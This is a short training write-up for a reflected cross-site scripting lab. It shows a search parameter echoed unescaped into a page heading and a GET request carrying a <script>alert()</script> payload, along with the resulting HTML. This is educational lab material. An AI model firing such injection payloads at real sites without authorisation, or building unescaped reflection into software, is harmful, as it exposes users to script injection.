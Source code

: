 # 1 - Reflected Nothing Encoded

This lab contains a simple [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search functionality.

### Notes

The application's search feature echoes the user's search query back to them in the `h1` tag of the `.blog-header` section:

```http
GET /?search=foobar HTTP/1.1
```

```html
<section class=blog-header>
    <h1>0 search results for 'foobar'</h1>
    <hr>
</section>
```

Because this user-supplied input is not properly escaped, we can execute an XSS simply by supplying JavaScript in the `search` query parameter:

```http
GET /?search=<script>alert()</script> HTTP/1.1
```

```html
<section class=blog-header>
    <h1>0 search results for '<script>alert()</script>'</h1>
    <hr>
</section>
```
